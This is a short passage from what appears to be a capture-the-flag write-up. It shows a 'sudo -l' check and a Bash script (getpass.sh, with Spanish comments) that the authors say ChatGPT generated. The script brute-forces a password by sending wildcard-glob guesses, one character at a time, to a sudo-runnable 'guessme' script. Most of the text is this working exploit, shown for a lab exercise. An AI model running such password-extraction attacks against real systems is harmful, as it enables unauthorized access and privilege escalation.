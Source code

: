 ```bash
sudo -l
```

We analyzed the `guessme` script and used ChatGPT to generate a bash script that exploits the vulnerability and guesses the password. At this point, we were a bit tired and didn't feel like writing code 😅

**getpass.sh**

```bash
#!/bin/bash
# Conjunto de caracteres a probar; puedes ampliarlo según tus necesidades.
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{};:,.<>/?`~'

# Variable para almacenar el prefijo encontrado (la contraseña)
password=""

# Función que ejecuta guessme con un input dado y devuelve la salida
function test_guess() {
    local guess="$1"
    # Se envía el input sin salto de línea adicional
    echo -n "$guess" | sudo /bin/bash /home/ll104567/guessme 2>/dev/null
}

echo "Iniciando extracción de contraseña..."

while true; do
    # Primero, probamos si el prefijo actual ya es la contraseña completa.
    output=$(test_guess "$password")
    if [[ "$output" == *"Password matches!"* ]]; then
        echo "¡Contraseña encontrada: $password!"
        break
    fi

    found=0
    # Iteramos por cada carácter del alfabeto
    for (( i=0; i<${#alphabet}; i++ )); do
        c="${alphabet:$i:1}"
        guess="${password}${c}*"
        output=$(test_guess "$guess")
        if [[ "$output" == *"Password matches!"* ]]; then
            password="${password}${c}"
            echo "Caracter encontrado: '$c' -> Contraseña parcial: $password"
            found=1
            break
        fi
    done

    # Si no se encontró extensión, se detiene el script.
    if [ $found -eq 0 ]; then
        echo "No se pudo extender la contraseña. Contraseña parcial: $password"
        break
    fi
done
```
